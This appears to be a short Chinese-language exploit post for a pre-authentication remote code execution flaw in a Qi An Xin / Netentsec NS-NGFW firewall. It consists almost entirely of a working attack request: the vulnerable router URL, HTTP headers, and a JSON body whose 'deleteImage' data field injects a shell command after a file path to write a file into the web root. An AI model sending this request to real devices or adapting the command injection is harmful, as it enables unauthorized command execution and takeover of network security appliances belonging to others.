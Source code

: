 ```yaml
---
layout: post
title: "奇安信NS-NGFW 网康防火墙 前台RCE"
subtitle: 'RCE'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


访问地址
http://X.X.X.X/directdata/direct/router
请求头(requestHeader)

```

```



Host: X.X.X.X

User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) 

Version/12.0.3 Safari/605.1.15

Content-Length: 155

Content-Type: application/json

X-Requested-With: XMLHttpRequest

Accept-Encoding: gzip

```

```



请求Body(requestBody)

```

```

{

   "action": "SSLVPN_Resource",

   "method": "deleteImage",

   "data": [{

​       "data": ["/var/www/html/d.txt;echo '5b926437'>/var/www/html/5b926.txt"]

   }],

   "type": "rpc",

   "tid": 17

}

```

```


